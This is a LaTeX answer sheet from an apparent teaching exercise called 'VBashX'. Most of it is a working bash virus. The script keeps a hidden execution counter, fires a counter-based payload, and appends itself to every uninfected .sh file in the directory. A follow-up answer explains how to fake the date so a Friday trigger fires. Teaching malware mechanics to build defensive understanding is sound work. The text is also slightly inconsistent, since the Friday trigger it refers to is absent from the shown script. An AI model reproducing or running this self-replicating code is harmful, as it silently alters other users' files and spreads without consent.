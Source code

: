 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{correction}
\textbf{3b)} Virus with counter payload:
\begin{lstlisting}[title=vbashx\_phase3b.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 3b --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=23
COUNTER_FILE=".vbx_count"
# Increment execution counter
if [ -f "$COUNTER_FILE" ]; then
    COUNT=$(cat "$COUNTER_FILE")
    COUNT=$(($COUNT + 1))
else
    COUNT=1
fi
echo $COUNT > "$COUNTER_FILE"
# Payload: triggered after 3 executions
if [ $COUNT -ge 3 ]; then
    echo "[VBashX] PAYLOAD: Execution count reached $COUNT!"
fi
# Infection phase
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
    fi; fi
done
\end{lstlisting}

\textbf{3c)} To test the Friday trigger without waiting, you can use \texttt{date -d} to simulate a date:
\begin{lstlisting}[numbers=none]
# Temporarily replace in the script:
# if [ "$(date +%u)" -eq 5 ]; then
# with:
if [ "$(date -d 'next Friday' +%u)" -eq 5 ]; then
# Or define a date() function that returns a simulated date:
date() { echo "5"; }
\end{lstlisting}
You can also temporarily change the system date in a VM: \texttt{sudo date -s "next Friday"}.

\begin{pointcle}
\begin{itemize}
    \item \texttt{date +\%u} returns the day of the week as a number (1=Monday, 7=Sunday).
    \item Hidden files (starting with \texttt{.}) allow \textbf{persisting state} between virus executions without being visible to \texttt{ls}.
    \item The separation between \textbf{infection} and \textbf{payload} is an important architectural principle: the virus spreads independently of the payload trigger.
\end{itemize}
\end{pointcle}

\end{correction}



\subsection*{Phase 4 -- Polymorphism by Line Reordering}


\end{exercice}
\end{document}
